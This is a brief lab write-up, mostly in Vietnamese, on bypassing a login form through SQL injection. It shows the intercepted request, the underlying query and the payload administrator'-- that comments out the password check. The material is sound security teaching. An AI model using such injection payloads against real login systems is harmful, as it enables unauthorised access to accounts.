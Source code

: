 # SQL injection vulnerability allowing login bypass

# 1. Vulnerable

Hint:

    - This lab contains a `SQL injection` vulnerability in the login function.

    - To solve the lab, perform a `SQL injection` attack that logs in to the application as the `administrator` user.

Với bài này có lỗi SQLi ở phần login. Ta cần login as administrator thì ta sẽ hoàn thành bài lab

Thử login và xem những gì nhận được trên burp_suite

![web.png](images/web.png)

Ok vậy với username và password thì ta được đoạn mã:

```
csrf=FmeqJ8KhTkT9VtycxUdVRSjCtnuFqUrA&username=assdasdas&password=3123123123
```

Mã truy vẫn trên SQL sẽ như sau:

```
select name FROM users WHERE username = 'assdasdas' AND password = '3123123123'
```

Sẽ ra sao nếu ta filter khiến biến mất password biến mất

Thêm đoạn mã sau:

```
administrator'--
```

-> Đoạn check account sẽ trở thành:

```
select name FROM users WHERE username = 'administrator'--' AND password = '3123123123'
```

Như vậy ta sẽ đóng đoạn check và bỏ đi phần check password và chỉ check phần username

-> Login success

![solved.png](images/solved.png)

